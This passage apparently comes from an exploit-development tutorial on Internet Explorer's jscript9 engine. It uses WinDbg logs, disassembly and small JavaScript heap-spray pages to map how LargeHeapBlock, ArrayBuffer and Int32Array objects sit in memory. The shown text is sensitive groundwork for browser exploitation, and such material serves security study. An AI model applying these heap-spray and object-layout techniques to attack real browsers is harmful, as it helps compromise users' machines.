LargeHeapBlock: addr = 0x16ccbf80 new LargeHeapBlock: addr = 0x16ccc020 new LargeHeapBlock: addr = 0x16ccc080 new LargeHeapBlock: addr = 0x16ccc0e0 new LargeHeapBlock: addr = 0x16ccc140 new LargeHeapBlock: addr = 0x16ccc1a0 new LargeHeapBlock: addr = 0x16ccc200 new LargeHeapBlock: addr = 0x16ccc260 new LargeHeapBlock: addr = 0x16ccc2c0 new LargeHeapBlock: addr = 0x16ccc320 new LargeHeapBlock: addr = 0x16ccc380 new LargeHeapBlock: addr = 0x16ccc3e0 new LargeHeapBlock: addr = 0x16ccc440 new LargeHeapBlock: addr = 0x16ccc4a0 new LargeHeapBlock: addr = 0x16ccc500 new LargeHeapBlock: addr = 0x16ccc560 new LargeHeapBlock: addr = 0x16ccc5c0 new LargeHeapBlock: addr = 0x16ccc620 new LargeHeapBlock: addr = 0x16ccc680 new LargeHeapBlock: addr = 0x16ccc6e0 new LargeHeapBlock: addr = 0x16ccc740 new LargeHeapBlock: addr = 0x16ccc7a0 new LargeHeapBlock: addr = 0x16ccc800 new LargeHeapBlock: addr = 0x16ccc860 new LargeHeapBlock: addr = 0x16ccc8c0 new LargeHeapBlock: addr = 0x16ccc920 new LargeHeapBlock: addr = 0x16ccc980 new LargeHeapBlock: addr = 0x16ccc9e0 new LargeHeapBlock: addr = 0x16ccca40 new LargeHeapBlock: addr = 0x16cccaa0 new LargeHeapBlock: addr = 0x16cccb00 new LargeHeapBlock: addr = 0x16cccb60 new LargeHeapBlock: addr = 0x16cccbc0 new LargeHeapBlock: addr = 0x16cccc20 new LargeHeapBlock: addr = 0x16cccc80 new LargeHeapBlock: addr = 0x16cccce0 new LargeHeapBlock: addr = 0x16cccd40 new LargeHeapBlock: addr = 0x16cccda0 new LargeHeapBlock: addr = 0x16ccce00 new LargeHeapBlock: addr = 0x16ccce60 new LargeHeapBlock: addr = 0x16cccec0 new LargeHeapBlock: addr = 0x16cccf20 new LargeHeapBlock: addr = 0x16cccf80 new LargeHeapBlock: addr = 0x1364e060 new LargeHeapBlock: addr = 0x1364e0c0 new LargeHeapBlock: addr = 0x1364e120 new LargeHeapBlock: addr = 0x1364e180 new LargeHeapBlock: addr = 0x1364e1e0 new LargeHeapBlock: addr = 0x1364e240 new LargeHeapBlock: addr = 0x1364e2a0 new LargeHeapBlock: addr = 0x1364e300 new LargeHeapBlock: addr = 0x1364e360 new LargeHeapBlock: addr = 0x1364e3c0 new LargeHeapBlock: addr = 0x1364e420 new LargeHeapBlock: addr = 0x1364e480 new LargeHeapBlock: addr = 0x1364e4e0 new LargeHeapBlock: addr = 0x1364e540 new LargeHeapBlock: addr = 0x1364e5a0 new LargeHeapBlock: addr = 0x1364e600 new LargeHeapBlock: addr = 0x1364e660 new LargeHeapBlock: addr = 0x1364e6c0 new LargeHeapBlock: addr = 0x1364e720 new LargeHeapBlock: addr = 0x1364e780 new LargeHeapBlock: addr = 0x1364e7e0 new LargeHeapBlock: addr = 0x1364e840 new LargeHeapBlock: addr = 0x1364e8a0 new LargeHeapBlock: addr = 0x1364e900 new LargeHeapBlock: addr = 0x1364e960 new LargeHeapBlock: addr = 0x1364e9c0 new LargeHeapBlock: addr = 0x1364ea20 new LargeHeapBlock: addr = 0x1364ea80 new LargeHeapBlock: addr = 0x1364eae0 new LargeHeapBlock: addr = 0x1364eb40 new LargeHeapBlock: addr = 0x1364eba0 new LargeHeapBlock: addr = 0x1364ec00 new LargeHeapBlock: addr = 0x1364ec60 new LargeHeapBlock: addr = 0x1364ecc0 new LargeHeapBlock: addr = 0x1364ed20 new LargeHeapBlock: addr = 0x1364ed80 new LargeHeapBlock: addr = 0x1364ede0 new LargeHeapBlock: addr = 0x1364ee40 new LargeHeapBlock: addr = 0x1364eea0 new LargeHeapBlock: addr = 0x1364ef00 new LargeHeapBlock: addr = 0x1364ef60 new LargeHeapBlock: addr = 0x1364efc0 new LargeHeapBlock: addr = 0x1364f060 new LargeHeapBlock: addr = 0x1364f0c0 new LargeHeapBlock: addr = 0x1364f120 new LargeHeapBlock: addr = 0x1364f180 new LargeHeapBlock: addr = 0x1364f1e0 new LargeHeapBlock: addr = 0x1364f240 new LargeHeapBlock: addr = 0x1364f2a0 new LargeHeapBlock: addr = 0x1364f300 new LargeHeapBlock: addr = 0x1364f360 new LargeHeapBlock: addr = 0x1364f3c0
Let’s look at the last 6 addresses:
new LargeHeapBlock: addr = 0x1364f1e0 new LargeHeapBlock: addr = 0x1364f240 new LargeHeapBlock: addr = 0x1364f2a0 new LargeHeapBlock: addr = 0x1364f300 new LargeHeapBlock: addr = 0x1364f360 new LargeHeapBlock: addr = 0x1364f3c0
First of all, note that they’re 0x60 bytes apart: 0x8 bytes for the allocation header and 0x58 bytes for the LargeHeapBlock object. Here are the last 6 LargeHeapBlocks in memory:
{kind=link}
As we can see, each LargeHeapBlock contains, af offset 0x24, a pointer to the previous LargeHeapBlock. This pointer will be used later to determine the address of the LeageHeapBlock itself.
ArrayBuffer & Int32Array
Here’s what the MDN (Mozilla Developer Network) says about ArrayBuffer:
The ArrayBuffer object is used to represent a generic, fixed-length raw binary data buffer. You can not directly manipulate the contents of an ArrayBuffer; instead, you create one of the typed array objects or a DataView object which represents the buffer in a specific format, and use that to read and write the contents of the buffer.
Consider the following example:
// This creates an ArrayBuffer manually.
buf = new ArrayBuffer(400*1024*1024);
a = new Int32Array(buf);
// This creates an ArrayBuffer automatically.
a2 = new Int32Array(100*1024*1024);
The arrays a and a2 are equivalent and have the same length. When creating an ArrayBuffer directly we need to specify the size in bytes, whereas when creating an Int32Array we need to specify the length in number of elements (32-bit integers). Note that when we create an Int32Array, an ArrayBuffer is created internally and the Int32Array uses it.
To find out what code creates an ArrayBuffer, we can perform a heap spray like before. Let’s use the following javascript code:
<html>
<head>
<script language="javascript">
alert("Start");
var a = new Array();
for (var i = 0; i < 0x10000; ++i) {
a[i] = new Int32Array(0x1000/4);
for (var j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
alert("Done");
</script>
</head>
<body>
</body>
</html>
When the dialog box with the text Done pops up, we can look at the memory with VMMap. Here’s what we see:

Note that this time it says Heap (Private D …, which means that the ArrayBuffers are allocated directly on the heap. If we look at the address f650000 in WinDbg, we see this:
{kind=link}
0f650000: 03964205 0101f3c5 ffeeffee 00000000 10620010 0e680010 00450000 0f650000 0f650020: 00000fd0 0f650040 10620000 0000000f 00000001 00000000 10610ff0 10610ff0 0f650040: 839ec20d 0801f3cd 0a73f528 0c6dcc48 00000012 f0e0d0c0 39682cf0 88000000 0f650060: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f650080: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f6500a0: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f6500c0: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f6500e0: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123
Our data begins at f650060. Since it’s on the heap, let’s use !heap:
0:012> !heap -p -a f650060
address 0f650060 found in
_HEAP @ 450000
HEAP_ENTRY Size Prev Flags UserPtr UserSize - state
0f650058 0201 0000 [00] 0f650060 01000 - (busy)As always, there are 8 bytes of allocation header. If we reload the page in IE and go back to WinDbg, we can see that the situation hasn’t changed:
0f650000: 03964205 0101f3c5 ffeeffee 00000000 10620010 0e680010 00450000 0f650000 0f650020: 00000fd0 0f650040 10620000 000000cc 00000004 00000000 10310ff0 10610ff0 0f650040: 839ec20d 0801f3cd 129e0158 11119048 00000012 f0e0d0c0 2185d880 88000000 0f650060: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f650080: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f6500a0: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f6500c0: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123 0f6500e0: 00000123 00000123 00000123 00000123 00000123 00000123 00000123 00000123
This means that we could put a hardware breakpoint at the address 0f650058 (HEAP_ENTRY above) and break on the code which make the allocation on the heap. Reload the page in IE and set the breakpoint in WinDbg:
0:013> ba w4 f650058
After closing the dialog box in IE, we break here:
772179ff 331da4002e77 xor ebx,dword ptr [ntdll!RtlpLFHKey (772e00a4)] 77217a05 c6410780 mov byte ptr [ecx+7],80h 77217a09 33d8 xor ebx,eax 77217a0b 33de xor ebx,esi 77217a0d ff4df4 dec dword ptr [ebp-0Ch] 77217a10 8919 mov dword ptr [ecx],ebx 77217a12 c60200 mov byte ptr [edx],0 ds:002b:0f65005e=00 <----------- we are here 77217a15 75be jne ntdll!RtlpSubSegmentInitialize+0xe5 (772179d5) 77217a17 8b5d08 mov ebx,dword ptr [ebp+8] 77217a1a 8b45f8 mov eax,dword ptr [ebp-8] 77217a1d baffff0000 mov edx,0FFFFh 77217a22 66895108 mov word ptr [ecx+8],dx 77217a26 668b4df0 mov cx,word ptr [ebp-10h] 77217a2a 66894e10 mov word ptr [esi+10h],cx
Here’s the stack trace:
0:004> k 10 ChildEBP RetAddr 057db90c 77216e87 ntdll!RtlpSubSegmentInitialize+0x122 057db9a8 7720e0f2 ntdll!RtlpLowFragHeapAllocFromContext+0x882 057dba1c 75de9d45 ntdll!RtlAllocateHeap+0x206 057dba3c 6f7f4613 msvcrt!malloc+0x8d 057dba4c 6f643cfa jscript9!memset+0x3a4c2 057dba64 6f79fc00 jscript9!Js::JavascriptArrayBuffer::Create+0x3c <---------------- 057dba90 6f79af10 jscript9!Js::TypedArrayBase::CreateNewInstance+0x1cf <---------------- 057dbb08 6f5c7461 jscript9!Js::TypedArray<int>::NewInstance+0x55 <---------------- 057dbca4 6f5a5cf5 jscript9!Js::InterpreterStackFrame::Process+0x4b47 057dbdd4 04a70fe9 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x305 WARNING: Frame IP not in any known module. Following frames may be wrong. 057dbde0 6f5a1f60 0x4a70fe9 057dbe60 6f5a20ca jscript9!Js::JavascriptFunction::CallRootFunction+0x140 057dbe78 6f5a209f jscript9!Js::JavascriptFunction::CallRootFunction+0x19 057dbec0 6f5a2027 jscript9!ScriptSite::CallRootFunction+0x40 057dbee8 6f64df75 jscript9!ScriptSite::Execute+0x61 057dbf74 6f64db57 jscript9!ScriptEngine::ExecutePendingScripts+0x1e9
Perfect! We see that the ArrayBuffer is allocated with a C’s malloc, which is called inside jscript9!Js::JavascriptArrayBuffer::Create. TypedArray<int> is probably our Int32Array and TypedArrayBase is its base class. So, jscript9!Js::TypedArray<int>::NewInstance creates a new Int32Array and a new JavascriptArrayBuffer. Now we should have a look at an Int32Array in memory. We don’t need to spray the heap anymore, so let’s change the code:
<html>
<head>
<script language="javascript">
alert("Start");
a = new Int32Array(0x1000);
for (var j = 0; j < a.length; ++j)
a[j] = 0x123;
alert("Done");
</script>
</head>
<body>
</body>
</html>
Let’s put a breakpoint on the creation of a new Int32Array:
0:013> bp jscript9!Js::TypedArray<int>::NewInstance Couldn't resolve error at 'jscript9!Js::TypedArray<int>::NewInstance' The breakpoint expression "jscript9!Js::TypedArray<int>::NewInstance" evaluates to the inline function. Please use bm command to set breakpoints instead of bp.
Let’s try to use bm instead:
0:013> bm jscript9!Js::TypedArray<int>::NewInstance 1: 6f79aebb @!"jscript9!Js::TypedArray<int>::NewInstance" 0:013> bl 1 e 6f79aebb 0001 (0001) 0:**** jscript9!Js::TypedArray<int>::NewInstance
OK, it seems it worked. Now reload the page in IE. When we close the dialog box, we break on jscript9!Js::TypedArray<int>::NewInstance. Here’s the entire function:
0:004> uf 6f79aebb jscript9!Js::TypedArray<int>::NewInstance: 6f79aebb 8bff mov edi,edi 6f79aebd 55 push ebp 6f79aebe 8bec mov ebp,esp 6f79aec0 83e4f8 and esp,0FFFFFFF8h 6f79aec3 83ec0c sub esp,0Ch 6f79aec6 53 push ebx 6f79aec7 8b5d08 mov ebx,dword ptr [ebp+8] 6f79aeca 8b4304 mov eax,dword ptr [ebx+4] 6f79aecd 8b4004 mov eax,dword ptr [eax+4] 6f79aed0 8b4804 mov ecx,dword ptr [eax+4] 6f79aed3 56 push esi 6f79aed4 57 push edi 6f79aed5 6a00 push 0 6f79aed7 51 push ecx 6f79aed8 8b8934020000 mov ecx,dword ptr [ecx+234h] 6f79aede ba00040000 mov edx,400h 6f79aee3 e8b2e7e0ff call jscript9!ThreadContext::ProbeStack (6f5a969a) 6f79aee8 8d4510 lea eax,[ebp+10h] 6f79aeeb 50 push eax 6f79aeec 8d7d0c lea edi,[ebp+0Ch] 6f79aeef 8d742414 lea esi,[esp+14h] 6f79aef3 e8cb93e0ff call jscript9!Js::ArgumentReader::ArgumentReader (6f5a42c3) 6f79aef8 8b4304 mov eax,dword ptr [ebx+4] 6f79aefb 8b4004 mov eax,dword ptr [eax+4] 6f79aefe 6850bd726f push offset jscript9!Js::TypedArray<int>::Create (6f72bd50) 6f79af03 6a04 push 4 6f79af05 ff7004 push dword ptr [eax+4] 6f79af08 8bc6 mov eax,esi 6f79af0a 50 push eax 6f79af0b e8214b0000 call jscript9!Js::TypedArrayBase::CreateNewInstance (6f79fa31) 6f79af10 5f pop edi 6f79af11 5e pop esi 6f79af12 5b pop ebx 6f79af13 8be5 mov esp,ebp 6f79af15 5d pop ebp 6f79af16 c3 ret
By stepping inside jscript9!Js::TypedArrayBase::CreateNewInstance we come across a call to jscript9!Js::TypedArray<int>::Create:
6f79fc16 ffb608060000 push dword ptr [esi+608h]
6f79fc1c 57 push edi
6f79fc1d 51 push ecx
6f79fc1e 53 push ebx
6f79fc1f ff5514 call dword ptr [ebp+14h] ss:002b:057dba9c={jscript9!Js::TypedArray<int>::Create (6f72bd50)}If we step inside jscript9!Js::TypedArray<int>::Create, we get to a call to Alloc:
6f72bd88 8b7514 mov esi,dword ptr [ebp+14h] ss:002b:057dba64=04b6b000 6f72bd8b 8b4e0c mov ecx,dword ptr [esi+0Ch] 6f72bd8e 6a24 push 24h <----------------- 24h bytes 6f72bd90 e893b2e6ff call jscript9!Recycler::Alloc (6f597028) 6f72bd95 ffb61c010000 push dword ptr [esi+11Ch] 6f72bd9b ff7510 push dword ptr [ebp+10h] 6f72bd9e ff750c push dword ptr [ebp+0Ch] 6f72bda1 57 push edi 6f72bda2 50 push eax 6f72bda3 e898f7ffff call jscript9!Js::TypedArray<int>::TypedArray<int> (6f72b540) 6f72bda8 5f pop edi 6f72bda9 5e pop esi 6f72bdaa c9 leave 6f72bdab c21000 ret 10h
We can see that the TypedArray<int> object is 24h bytes. Note that the object is first allocated and then initialized by the constructor.
To print a message when an Int32Array is created, we can put a breakpoint at the end of jscript9!Js::TypedArray<int>::NewInstance, right after the call to jscript9!Js::TypedArrayBase::CreateNewInstance (see the arrow):
jscript9!Js::TypedArray<int>::NewInstance: 6f79aebb 8bff mov edi,edi 6f79aebd 55 push ebp 6f79aebe 8bec mov ebp,esp 6f79aec0 83e4f8 and esp,0FFFFFFF8h 6f79aec3 83ec0c sub esp,0Ch 6f79aec6 53 push ebx 6f79aec7 8b5d08 mov ebx,dword ptr [ebp+8] 6f79aeca 8b4304 mov eax,dword ptr [ebx+4] 6f79aecd 8b4004 mov eax,dword ptr [eax+4] 6f79aed0 8b4804 mov ecx,dword ptr [eax+4] 6f79aed3 56 push esi 6f79aed4 57 push edi 6f79aed5 6a00 push 0 6f79aed7 51 push ecx 6f79aed8 8b8934020000 mov ecx,dword ptr [ecx+234h] 6f79aede ba00040000 mov edx,400h 6f79aee3 e8b2e7e0ff call jscript9!ThreadContext::ProbeStack (6f5a969a) 6f79aee8 8d4510 lea eax,[ebp+10h] 6f79aeeb 50 push eax 6f79aeec 8d7d0c lea edi,[ebp+0Ch] 6f79aeef 8d742414 lea esi,[esp+14h] 6f79aef3 e8cb93e0ff call jscript9!Js::ArgumentReader::ArgumentReader (6f5a42c3) 6f79aef8 8b4304 mov eax,dword ptr [ebx+4] 6f79aefb 8b4004 mov eax,dword ptr [eax+4] 6f79aefe 6850bd726f push offset jscript9!Js::TypedArray<int>::Create (6f72bd50) 6f79af03 6a04 push 4 6f79af05 ff7004 push dword ptr [eax+4] 6f79af08 8bc6 mov eax,esi 6f79af0a 50 push eax 6f79af0b e8214b0000 call jscript9!Js::TypedArrayBase::CreateNewInstance (6f79fa31) 6f79af10 5f pop edi <---------------------- breakpoint here 6f79af11 5e pop esi 6f79af12 5b pop ebx 6f79af13 8be5 mov esp,ebp 6f79af15 5d pop ebp 6f79af16 c3 ret
Here’s the breakpoint:
bp jscript9+20af10 ".printf \"new TypedArray<int>: addr = 0x%p\\n\",eax;g"
We should also take a look at jscript9!Js::JavascriptArrayBuffer::Create:
0:004> uf jscript9!Js::JavascriptArrayBuffer::Create jscript9!Js::JavascriptArrayBuffer::Create: 6f643cbe 8bff mov edi,edi 6f643cc0 55 push ebp 6f643cc1 8bec mov ebp,esp 6f643cc3 53 push ebx 6f643cc4 8b5d08 mov ebx,dword ptr [ebp+8] 6f643cc7 56 push esi 6f643cc8 57 push edi 6f643cc9 8bf8 mov edi,eax 6f643ccb 8b4304 mov eax,dword ptr [ebx+4] 6f643cce 8b4004 mov eax,dword ptr [eax+4] 6f643cd1 8bb064040000 mov esi,dword ptr [eax+464h] 6f643cd7 01be04410000 add dword ptr [esi+4104h],edi 6f643cdd e85936f5ff call jscript9!Recycler::CollectNow<402722819> (6f59733b) 6f643ce2 6a18 push 18h <----------- 18h bytes 6f643ce4 8bce mov ecx,esi 6f643ce6 e8b958f5ff call jscript9!Recycler::AllocFinalized (6f5995a4) 6f643ceb ff353cb1826f push dword ptr [jscript9!_imp__malloc (6f82b13c)] <-------------------- 6f643cf1 8bf0 mov esi,eax 6f643cf3 8bcb mov ecx,ebx 6f643cf5 e863010000 call jscript9!Js::ArrayBuffer::ArrayBuffer<void * (__cdecl*)(unsigned int)> (6f643e5d) 6f643cfa 5f pop edi 6f643cfb c706103d646f mov dword ptr [esi],offset jscript9!Js::JavascriptArrayBuffer::`vftable' (6f643d10) 6f643d01 8bc6 mov eax,esi 6f643d03 5e pop esi 6f643d04 5b pop ebx 6f643d05 5d pop ebp 6f643d06 c20400 ret 4 <----------- put a breakpoint here
As you can see, an ArrayBuffer is an object of 18h bytes which is allocated through jscript9!Recycler::AllocFinalized. It’s almost certain that ArrayBuffer contains a pointer to a block of memory which contains the user data. In fact, you can see that jscript9!_imp__malloc is passed to the constructor of ArrayBuffer and we already know that the raw buffer is indeed allocated with C’s malloc.
We can now put a breakpoint at then end of the function:
bp jscript9!Js::JavascriptArrayBuffer::Create+0x48 ".printf \"new JavascriptArrayBuffer: addr = 0x%p\\n\",eax;g"
These objects are easy to analyze. Here’s what we learned:

{kind=link}